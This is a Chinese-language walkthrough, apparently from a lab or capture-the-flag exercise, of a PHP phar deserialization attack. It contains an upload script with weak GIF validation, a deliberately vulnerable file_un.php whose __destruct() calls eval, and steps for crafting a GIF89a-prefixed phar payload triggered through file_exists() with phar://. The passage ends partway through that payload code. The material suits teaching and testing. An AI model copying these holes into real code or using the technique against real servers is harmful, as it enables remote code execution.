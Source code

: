 ```php
file_un.php 存在 file_exists() ，并且存在 __destruct()
```
upload_file.php内容
```php
<?php
if (($_FILES["file"]["type"]=="image/gif")&&(substr($_FILES["file"]["name"],
strrpos($_FILES["file"]["name"], '.')+1))== 'gif') {
   echo "Upload: " . $_FILES["file"]["name"];
   echo "Type: " . $_FILES["file"]["type"];
   echo "Temp file: " . $_FILES["file"]["tmp_name"];
   if (file_exists("upload_file/" . $_FILES["file"]["name"]))
   {
       echo $_FILES["file"]["name"] . " already exists. ";
   }
   else
   {
       move_uploaded_file($_FILES["file"]["tmp_name"],
           "upload_file/" .$_FILES["file"]["name"]);
       echo "Stored in: " . "upload_file/" . $_FILES["file"]["name"];
   }
}
else
{
   echo "Invalid file,you can only upload gif";
}
```
upload_file.html内容
```html
<!DOCTYPE html>
<html lang="en">
<head>
   <meta charset="UTF-8">
   <title>Title</title>
</head>
<body>
<form action="upload_file.php" method="post"
enctype="multipart/form-data">
   <input type="file" name="file" />
   <input type="submit" name="Upload" />
</form>
</body>
</html>
```
file_un.php内容
```php
<?php
$filename=$_GET['filename'];
class AnyClass{
   var $output = 'echo "ok";';
   function __destruct()
   {
       eval($this -> output);
   }
}
file_exists($filename);
```
payload制作
首先是根据file_un.php写一个生成phar的php文件，当然需要绕过gif，所以需要加GIF89a，然后我们访问这个php文件后，生成了phar.phar，修改后缀为gif，上传到服务器，然后利用file_exists，使用phar://执行代码
```php
<?php
class AnyClass{
   var $output = 'echo "ok";';
   function __destruct()
```